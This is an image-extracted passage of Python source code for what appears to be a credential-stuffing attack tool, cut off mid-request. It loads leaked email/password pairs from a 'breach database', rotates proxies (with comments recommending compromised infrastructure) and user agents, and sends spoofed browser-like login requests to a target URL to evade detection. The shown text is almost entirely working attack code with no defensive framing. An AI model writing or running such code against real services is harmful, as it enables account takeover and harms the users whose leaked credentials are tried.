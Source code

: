 ```
        Load rotating proxy list for distributed attacks
        In real scenarios, use compromised infrastructure or proxy services
        """
        return [
            {'http': 'http://proxy1.com:8080', 'https': 'https://proxy1.com:8080'},
            {'http': 'http://proxy2.com:8080', 'https': 'https://proxy2.com:8080'},
            {'http': 'http://proxy3.com:8080', 'https': 'https://proxy3.com:8080'},
        ]
    
    def _get_next_proxy(self) -> Dict:
        """Rotate through proxy list"""
        proxy = self.proxies[self.current_proxy_index]
        self.current_proxy_index = (self.current_proxy_index + 1) % len(self.proxies)
        return proxy
    
    def load_breach_credentials(self, limit: int = 10000) -> int:
        """
        Load credentials from breach database
        Real implementations query massive databases with billions of credentials
        """
        print(f"[*] Loading credentials from breach database: {self.breach_database}")
        
        # Simulated breach data loading
        # Real breach databases: Collection #1, Compilations, specific breaches
        sample_credentials = [
            Credential("admin@target.com", "Password123!", "LinkedIn2012", "2012-06-05"),
            Credential("user1@target.com", "Welcome2024", "Adobe2013", "2013-10-03"),
            Credential("john.doe@target.com", "Summer2023!", "Yahoo2014", "2014-09-22"),
            # In reality, millions of credentials would be loaded
        ]
        
        self.credentials = sample_credentials[:limit]
        print(f"[+] Loaded {len(self.credentials)} credential pairs")
        
        return len(self.credentials)
    
    def test_credential(self, credential: Credential) -> bool:
        """
        Test a single credential against target authentication
        Implements realistic timing and evasion
        """
        try:
            # Rotate proxy and user agent
            proxy = self._get_next_proxy()
            user_agent = random.choice(self.user_agents)
            
            # Construct authentication request
            session = requests.Session()
            session.headers.update({'User-Agent': user_agent})
            
            # Add realistic headers that legitimate browsers send
            session.headers.update({
                'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
                'Accept-Language': 'en-US,en;q=0.5',
                'Accept-Encoding': 'gzip, deflate, br',
                'Connection': 'keep-alive',
                'Upgrade-Insecure-Requests': '1'
            })
            
            # Attempt authentication
            response = session.post(
                self.target_url,
                data={
```